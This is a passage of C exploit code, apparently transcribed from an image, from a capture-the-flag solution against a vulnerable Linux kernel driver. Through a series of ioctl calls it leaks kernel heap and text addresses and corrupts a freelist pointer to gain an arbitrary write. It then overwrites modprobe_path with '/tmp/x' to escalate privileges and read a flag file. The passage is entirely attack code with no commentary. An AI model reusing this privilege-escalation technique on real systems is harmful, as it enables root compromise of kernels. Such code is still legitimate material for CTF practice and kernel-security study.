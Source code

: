 ```c
    strncpy(data.buffer, "AAAA", CHUNK_SIZE);
    int a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "BBBB", CHUNK_SIZE); 
    a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "CCCC", CHUNK_SIZE);  
    a = ioctl(global_fd, 0xdeadbeef, &data);
    a = ioctl(global_fd, 0x1337, &data);

    unsigned long long *p = &data.buffer;
    data.idx = 0;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak0 = p[CHUNK_SIZE / 8 - 1];
    data.idx = 2;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak1 = p[CHUNK_SIZE / 8 - 1];
    printf("0x%llx 0x%llx\n", leak0, leak1);

    data.idx = 2;
    unsigned long long fake = leak1 + 0x100;
    
    p[CHUNK_SIZE / 8 - 1] = fake;
    p[0] = 0x43434343;
    a = ioctl(global_fd, 0xbabecafe, &data);
    strncpy(data.buffer, "DDDD", CHUNK_SIZE);
    a = ioctl(global_fd, 0xdeadbeef, &data);
    p[0] = 0x45454545;
    a = ioctl(global_fd, 0xdeadbeef, &data);

    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = leak0 + 0x400;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    a = ioctl(global_fd, 0xcafebabe, &data);
    for (int i = 0; i < CHUNK_SIZE / 8; i ++){
        printf("0x%llx\n", p[i]);
    }
    unsigned long long modprobe_path = p[7] + 0x629ce0;
    printf("0x%llx\n", modprobe_path);


    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = modprobe_path-0x10;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    strncpy(data.buffer, "AAAAAAAA/tmp/x\x00", CHUNK_SIZE);
    a = ioctl(global_fd, 0xbabecafe, &data);
    get_flag();

    // After that you cat /tmp/flag

    return 0;
}
```

